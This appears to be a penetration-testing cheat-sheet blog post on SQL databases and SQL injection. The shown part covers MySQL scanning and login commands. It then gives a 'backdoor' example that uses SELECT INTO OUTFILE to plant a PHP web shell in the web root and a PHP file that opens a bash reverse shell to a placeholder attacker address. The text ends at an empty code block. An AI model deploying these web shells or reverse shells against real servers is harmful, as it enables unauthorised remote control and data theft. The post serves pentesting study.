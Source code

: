 +++
title = "SQL"
description = ""
type = ["posts","post"]
tags = [
    "web",
    "infosec",
]
date = "2021-06-08"
categories = [
    "web",
    "infosec",
]
series = ["web"]
[ author ]
  name = "Quac Tran"
+++
* [General](#general)
    * [MySQL (3306)](#mysql-3306)
    * [MSSQL (1433)](#mssql-1433)
    * [Oracle (1521)](#oracle-1521)
    * [PostgresSQL (5432)](#postgressql-5432)
* [SQL Injection](#sql-injection)
    * [Google Dorking](#google-dorking)
    * [Bad character detect](#bad-character-detect)
    * [Detect number of vulnerable columns](#detect-number-of-vulnerable-columns)
    * [Union Select](#union-select)
    * [bypass usando comentarios](#bypass-usando-comentarios)
    * [bypass usando comentarios and url encoding](#bypass-usando-comentarios-and-url-encoding)
    * [Information_schema.tables bypass](#information_schema.tables-bypass)
    * [concat](#concat)
    * [group_concat](#group_concat)
    * [Authen bypass](#authen-bypass)
* [SQLMAP](#sqlmap)
* [Reference](#reference)
# General
## MySQL-3306
#### Nmap
```bash
nmap -Pn -sV -p 3306 --script mysql* TARGETIP
```
#### Access Remotely:
```sql
mysql -host=TARGETIP -u root -p
mysql -u root -p password -e 'show databases;'
mysql -u root -p password DBNAME -e 'select * from TABLENAME;'
```
#### Access Locally:
```sql
mysql -u root -p
mysql> use DBNAME;
mysql> show tables;
```
#### Command Backdoor example:
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php";
SELECT "<?php exec(""/bin/bash -c 'bash -i >&/dev/tcp/ATTACKERIP/PORT 0>&1'""); ?> " into outfile "/tmp/shell.php";
```
#### Update a field example: (i.e. change a password):
```sql
```